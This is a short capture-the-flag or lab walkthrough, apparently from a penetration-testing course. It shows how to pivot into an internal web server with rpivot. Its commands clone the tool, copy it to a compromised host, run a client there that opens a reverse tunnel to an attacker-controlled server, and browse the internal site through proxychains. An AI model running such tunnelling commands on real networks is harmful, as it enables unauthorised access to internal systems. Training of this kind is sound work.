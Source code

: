 # Web Server Pivoting with Rpivot

Using the concepts taught in this section, connect to the web server on the internal network. Submit the flag presented on the home page as the answer.

```bash
sudo git clone https://github.com/klsecservices/rpivot.git
python2 server.py
scp -r rpivot ubuntu@10.129.7.236:/home/ubuntu/
```

from the target

```bash
python2.7 client.py --server-ip 10.10.14.18 --server-port 9050
```

Browsing to the Target Webserver using Proxychains

```bash
proxychains firefox-esr 172.16.5.135:80
```
